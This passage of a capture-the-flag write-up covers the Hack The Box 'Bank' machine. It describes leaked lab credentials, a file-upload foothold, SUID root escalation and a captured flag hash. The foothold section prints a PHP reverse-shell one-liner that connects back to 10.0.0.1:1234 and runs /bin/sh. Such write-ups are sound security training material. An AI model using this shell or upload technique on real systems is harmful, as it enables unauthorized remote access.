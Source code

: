 #### 2.2.2 Failed Encryption
Sorted the transaction and found one with size smaller than usual. It was record of unencrypted transcation.

{{< figure src="/images/PicBank/unencrypted.png" title="Failed Encryption" >}}

```text
--ERR ENCRYPT FAILED

+=================+

| HTB Bank Report |

+=================+



===UserAccount===

Full Name: Christos Christopoulos

Email: chris@bank.htb

Password: !##HTBB4nkP4ssw0rd!##

CreditCards: 5

Transactions: 39

Balance: 8842803 .

===UserAccount===
```

### 2.3 bank.htb
Logging in using previously found credentials.
{{< figure src="/images/PicBank/webpage.png" title="http://bank.htb" >}}

## 3. Foothold
### 3.1 /support.php
Had an option to upload. Exploited it to get reverse shell.
{{< figure src="/images/PicBank/upload-page.png" title="Upload Page" >}}

Shell Used: 
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### 3.2 www-shell
{{< figure src="/images/PicBank/www-shell.png" title="Reverse Shell" >}}


## 4. Privilege Escalation
Found an unknow SUID `emergency`.

{{< figure src="/images/PicBank/root.png" title="Root Access" >}}

```bash
# cat root.txt
787535712a0acf0c8e65223c60dca882
```

